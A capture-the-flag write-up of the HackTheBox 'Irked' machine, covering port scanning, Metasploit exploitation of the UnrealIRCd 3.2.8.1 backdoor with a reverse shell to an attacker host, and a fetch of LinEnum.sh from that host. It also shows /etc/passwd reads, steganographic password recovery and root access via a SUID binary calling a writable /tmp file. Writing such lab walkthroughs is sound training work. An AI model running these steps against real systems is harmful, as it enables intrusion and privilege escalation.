


Irked - WriteUp
April 27, 2019
External Recon #
As usual we work our way down the KillChain. Starting with a typical nmap scan.
nmap -sC -sV -oN inital 10.10.10.117
This runs all the default labled nmap scripts, enumerates versions of found services and dumps everything into the file inital. Note that a default nmap scan just does TCP scans and only the top 1000 ports.
Here’s the output of said scan:
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
| 1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
| 2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
| 256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_ 256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp open http Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100024 1 46965/udp status
|_ 100024 1 47229/tcp status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
We note the usual suspects. “Port 22/ssh” and “Port 80/http”. “Port 111/rpcbind” is somewhat unusual.
Since we found a webservice. Let’s fire up gobuster to scan the website for more intel.
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.117 -x txt,php,htm,html
But this leads to a dead end. We find just the Apache manual and nothing more.
So let’s start exploreing what else we’ve got so far.
Explore #
#### Port 22: `ssh root@10.10.10.117`
Regular ssh service. Nothing special so far. We get promted for a password.
Port 80: #
Let’s look at the Website:
This looks like an obvious hint. “IRC is almost working”. Usualy IRC runs on ports: “194/tcp” or “6667/tcp”. We haven’t seen those ports yet.
I thought at this point: “Well, perhaps those ports aren’t in the default scan of nmap?” So let’s rescan both ports:
nmap -sC -sV -p 6667,194 10.10.10.117
PORT STATE SERVICE VERSION
194/tcp closed irc
6667/tcp closed irc
Both closed. So, what now…
Port 111: #
After all routes led to a dead end so far, it looked like “Port 111” was the only option left. So I searched for it’s intended use, and exploits of it. Long story short: It’s nothing of value for this box. If you google for “rpcbind / portmapper” exploits you find some very old ones. However I wasn’t able to accomplish anything with it. I spent a couple of hours on this rabbit hole.
Eventually I resorted to the HackTheBox forums and check the thread for this box. One guy said:
Have you scanned all the ports…
At this point I was like: “Fuck!” Sure thing, I haven’t scanned all ports on this bitch. So I finally did.
nmap -p- 10.10.10.117
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
111/tcp open rpcbind
6697/tcp open ircs-u
8067/tcp open infi-async
47229/tcp open unknown
65534/tcp open unknown
And there we have it. “Port 6697” is open als looks like IRC is listening.
Let’s check if this is indeed IRC listening here. So I got myself an IRC client. In this case “HexChat” and conntected to the server.


As you can see, I am not only connected, but I also got more intel about the specific IRC version:
Your host is irked.htb, running version Unreal3.2.8.1
Let’s check “searchsploit” if there’s an exploit already written for this version. It’s an easy box afterall.
searchsploit unreal
-------------------------------------------------------------------- ----------------------------------
| Exploit Title | Path |
| | (/usr/share/exploitdb/) |
-------------------------------------------------------------------- ----------------------------------
| UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit) | exploits/linux/remote/16922.rb |
-------------------------------------------------------------------------------------------------------
Seems like it. :) Let’s break in!
Exploit #
Let’s fire up Metasploit. And load the exploit with use exploit.
The commands within msf are fairly simple. So I don’t write them all down.
Here’s the finished Exploit including the payload we will try.
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > show options
Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST 10.10.10.117 yes The target address
RPORT 6697 yes The target port (TCP)
Payload options (cmd/unix/reverse):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 10.10.15.149 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic Target
So let’s type “exploit”, hit enter and sure enough, we get a shell back. Sweet!
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
[*] Started reverse TCP double handler on 10.10.15.149:4444
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
:irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 4DOoaoPnPoYRBF0P;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "4DOoaoPnPoYRBF0P\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.15.149:4444 -> 10.10.10.117:52871) at 2018-12-24 21:56:58 +0100
Let’s get a halfway decent pty shell.
python3 -c 'import pty;pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$Internal Recon #
Awesome, now we have a shell. Let’s find out which users are on this box. And if we can find something usefull.
ircd@irked:~$ ls -la /home
drwxr-xr-x 20 djmardov djmardov 4096 Dec 24 15:51 djmardov
drwxr-xr-x 4 ircd root 4096 Dec 24 13:17 ircd
ircd@irked:~$ cat /etc/passwd
djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash
ircd:x:1001:1001::/home/ircd:/bin/sh
ircd@irked:~$ sudo -l
bash: sudo: command not found
This is just a rough first overview. We probably just have two users on this box.
Which typicaly means, we need to privesc to the other user first. Let’s check both
home folders for more intel before we start spending time on tools like LinEnum.
ircd@irked:/home/djmardov/Documents$ ls -la
-rw-r--r-- 1 djmardov djmardov 52 May 16 2018 .backup
-rw------- 1 djmardov djmardov 33 May 15 2018 user.txt
ircd@irked:/home/djmardov/Documents$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
Nice! We found a password of some sorts. And also we’ve got a hint for what it can be used. However, let’s stop here for a second and put this in perspective.
It took me just a couple of minutes to find this file. Because I was searching for the user.txt which you is right next to the backup file. (User.txt isn’t accessible for us as you can see.)
However I wasn’t sure what to do with it. “Steg” is a reference for “Stegonography” that’s for sure. But there’s nothing where to put the password. I searched everywhere in the filesystem. After quite some time I took a break thought:
Where is typicaly some stego hidden? Well, pictures. But I don’t have a picture. …except the one on the Website!
Damn! This took me way to long. So, what next? I downloaded the picture and installed a famous tool I knew from other “Stego” Challenges called “StegHide”.
root@kali:~# steghide extract -sf irked.jpg
Enter passphrase:
wrote extracted data to "pass.txt".
root@kali:~# cat pass.txt
Kab6h+m+bbp2J:HG
Awesome! We’ve got another password. Since we found it in “djmardov” directory let’s check if it’s a password for “ssh”.
User Flag #
ssh djmardov@10.10.10.117
Password:
djmardov@irked:~$ cat Documents/user.txt
4a66a78b12dc0e************
Awesome. We are not only authenticated as a propper user, we also can get the “userflag” now.
Privilege Escalation #
Let’s hunt for the “rootflag”. I start with downloading “LinEnum.sh” from my attacker machine. I start a local webserver using python3.
Attacker #
python3 -m http.server 80
Victim #
djmardov@irked:/tmp$ wget http://10.10.15.149/LinEnum.sh
2018-12-24 17:42:34 (1.45 MB/s) - 'LinEnum.sh' saved [45578/45578]
djmardov@irked:/tmp$ chmod +x LinEnum.sh
djmardov@irked:/tmp$ ./LinEnum.sh -t
This is part of the relevant output. I noticed the program “viewuser”. Which has the SUID bit set. Why this program? It’s not installed on Linux by default. If you don’t know this, you only can compare a Linux install with this one.
[-] SUID files:
-rwsr-xr-x 1 root root 53112 May 17 2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 52344 May 17 2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 7328 May 16 2018 /usr/bin/viewuser
-rwsr-xr-x 1 root root 96760 Aug 13 2014 /sbin/mount.nfs
-rwsr-xr-x 1 root root 38868 May 17 2017 /bin/su
-rwsr-xr-x 1 root root 34684 Mar 29 2015 /bin/mount
Let’s run the programm an check what it does.
djmardov@irked:/usr/bin$ ./viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 Dec 24 17:20 (:0)
djmardov pts/0 Dec 24 17:27 (10.10.14.250)
djmardov pts/1 Dec 24 17:37 (10.10.15.149)
djmardov pts/3 Dec 24 17:45 (10.10.15.234)
sh: 1: /tmp/listusers: not found
So, it says it’s in development and should set and test user permissions.
But it seems, it ran into an error because the file /tmp/listuser is missing.
Well, let’s create one. But put some cool content in there. ;)
djmardov@irked:/usr/bin$ echo /bin/bash > /tmp/listusers
djmardov@irked:/usr/bin$ chmod 777 /tmp/listusers
djmardov@irked:/usr/bin$ ./viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 Dec 24 17:20 (:0)
djmardov pts/0 Dec 24 17:27 (10.10.14.250)
djmardov pts/1 Dec 24 17:37 (10.10.15.149)
djmardov pts/3 Dec 24 17:45 (10.10.15.234)
djmardov pts/5 Dec 24 17:53 (10.10.12.6)
root@irked:/usr/bin#
Aaand we are root! =)
Root Flag #
So all that is left, is to get the rootflag.
root@irked:# cat /root/root.txt
8d8e9e8be6465***********
This is a box done!
Lessons Learned #
I always forget to either scan for all ports or UDP ports when I can’t find a first entry point. This was my initial problem with this box. I had to go to the forums to get a hint. Which could have been avoided.
So, what I did is to automate my nmap scan. I just wrote a simple python3 wrapper around nmap.
The UDP scan takes ages to complete btw, so I put it last.
You can find it here on my Github page.
To cite ippsec:
“It’s always good to have some recon running in the background.”
That’s all for today. Have a good one!
x41